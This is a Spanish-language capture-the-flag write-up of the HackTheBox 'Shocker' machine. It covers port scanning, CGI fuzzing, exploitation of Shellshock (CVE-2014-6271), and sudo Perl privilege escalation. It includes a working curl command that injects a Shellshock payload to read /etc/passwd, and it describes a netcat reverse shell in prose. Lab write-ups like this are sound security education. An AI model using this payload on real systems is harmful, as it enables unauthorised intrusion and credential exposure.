 ```yaml
---
title: "HackTheBox - Shocker"
layout: single
excerpt: Esta máquina me gusto mucho a pesar de su facilidad a la hora de completarla, su título te da el vector de ataque.
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
categories:
  - HackTheBox
tags:
  - Write Up
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png">
</p>

Comence efecutando un escaneo con `Nmap` para identificar los puertos abiertos de la maquina.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -v -Pn -n 10.10.10.56 -oG allPorts 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Initiating SYN Stealth Scan at 15:48
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed SYN Stealth Scan at 15:48, 0.47s elapsed (1000 total ports)
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
           Raw packets sent: 1038 (45.672KB) | Rcvd: 1018 (40.728KB)
```

Tambien hice otro escaneo para verificar la version y servicio de cada puerto abierto.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted            
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Nmap scan report for 10.10.10.56
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.31 seconds
```

Al parecer solo tenía dos puertos, empece por el servidor web, poco podía hacer en el servicio SSH, se veía esto.

![primera (1)](https://user-images.githubusercontent.com/69093629/124386681-d5ed9d80-dcdb-11eb-93dd-7f6951fceb66.png)

No encontré nada, por lo que recurrí a hacer un "fuzzing" con  `WZFuzz`.

![miherramienta](https://user-images.githubusercontent.com/69093629/124386715-f74e8980-dcdb-11eb-8ffb-9591b5ab20c7.png)

Encontré un `/cgi-bin/`, esto parecía un `shellshock` en toda regla, fuzze con `wfuzz`, para ver si podía encontrar un script en bash.

![fuzzer](https://user-images.githubusercontent.com/69093629/124386763-35e44400-dcdc-11eb-9387-501de5ea0565.png)

Y si, encontré un script llamado `user.sh`, para confirmar que era un `shellshock` hice uso del script [exploit-deface.sh](https://raw.githubusercontent.com/opsxcq/exploit-CVE-2014-6271/master/exploit-deface.sh) y efectivamente era vulnerable a `shellshock`, ejecute el siguiente comando enviando una petición por GET por `curl` para ver si me devolvía el  `/etc/hosts`.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

Si, me devolvió el contenido del  `/etc/hosts`, ahora solo faltaba acceder a la máquina, me entable una reverse Shell por "netcat" por el puerto `443` y accedí.

![ypadentro](https://user-images.githubusercontent.com/69093629/124386921-ee11ec80-dcdc-11eb-97b5-e2650c100612.png)

Ahora solo faltaba la escalada de privilegios, para ello hice  `sudo -l`, vi que podía ejecutar Perl con privilegios `root`, me dirigí a [gftobing](https://gtfobins.github.io/) para ver si podía escalar privilegios de alguna manera con Perl, al parecer si podía.

![Captura de pantalla (650)](https://user-images.githubusercontent.com/69093629/124387071-6aa4cb00-dcdd-11eb-900c-dfa65fa1d770.png)

Ejecute el comando con `sudo` y me otorgo permisos de superusuario.

![ypadentro2](https://user-images.githubusercontent.com/69093629/124387098-81e3b880-dcdd-11eb-9d8d-657e81eafc75.png)

 
 
